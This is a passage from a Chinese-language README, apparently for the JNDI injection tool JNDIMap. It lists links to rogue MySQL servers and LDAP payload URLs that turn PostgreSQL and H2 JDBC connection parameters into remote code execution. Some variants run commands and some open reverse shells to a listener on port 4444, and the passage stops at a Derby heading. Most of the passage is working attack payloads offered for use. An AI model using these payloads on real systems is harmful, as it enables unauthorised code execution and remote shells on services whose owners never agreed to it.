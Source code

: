 上述两种方式均需要搭配恶意 MySQL 服务端使用

[https://github.com/4ra1n/mysql-fake-server](https://github.com/4ra1n/mysql-fake-server)

[https://github.com/rmb122/rogue_mysql_server](https://github.com/rmb122/rogue_mysql_server)

[https://github.com/fnmsd/MySQL_Fake_Server](https://github.com/fnmsd/MySQL_Fake_Server)

### PostgreSQL

通过 PostgreSQL JDBC URL 的 socketFactory 和 socketFactoryArg 参数实例化 ClassPathXmlApplicationContext 实现 RCE

```bash
# 命令执行
ldap://127.0.0.1:1389/Factory/PostgreSQL/Command/open -a Calculator

# 反弹 Shell
ldap://127.0.0.1:1389/Factory/PostgreSQL/ReverseShell/127.0.0.1/4444
```

### H2

通过 H2 JDBC URL 的 INIT 参数执行 SQL 语句, 支持命令执行和反弹 Shell

三种方式 RCE: CREATE ALIAS + Java/Groovy, CREATE TRIGGER + JavaScript

```bash
# 命令执行
ldap://127.0.0.1:1389/Factory/H2/Java/Command/open -a Calculator
ldap://127.0.0.1:1389/Factory/H2/Groovy/Command/open -a Calculator
ldap://127.0.0.1:1389/Factory/H2/JavaScript/Command/open -a Calculator

# 反弹 Shell
ldap://127.0.0.1:1389/Factory/H2/Java/ReverseShell/127.0.0.1/4444
ldap://127.0.0.1:1389/Factory/H2/Groovy/ReverseShell/127.0.0.1/4444
ldap://127.0.0.1:1389/Factory/H2/JavaScript/ReverseShell/127.0.0.1/4444
```

此外, JNDIMap 还支持 **JRE** 环境的 H2 RCE

*Java 15 及以上版本删除了 Nashorn JS 引擎, 同时 JRE 环境本身不包含 javac 命令, 因此无法使用 Java/JavaScript 方式实现 RCE*

```bash
# 基于 MidiSystem.getSoundbank 方法, 仅需 JRE + H2 依赖
ldap://127.0.0.1:1389/Factory/H2/JRE/Soundbank/Command/open -a Calculator
ldap://127.0.0.1:1389/Factory/H2/JRE/Soundbank/ReverseShell/127.0.0.1/4444

# 基于 ClassPathXmlApplicationContext, 需要 Spring 依赖
ldap://127.0.0.1:1389/Factory/H2/JRE/Spring/Command/open -a Calculator
ldap://127.0.0.1:1389/Factory/H2/JRE/Spring/ReverseShell/127.0.0.1/4444
```

### Derby

#### Derby SQL RCE

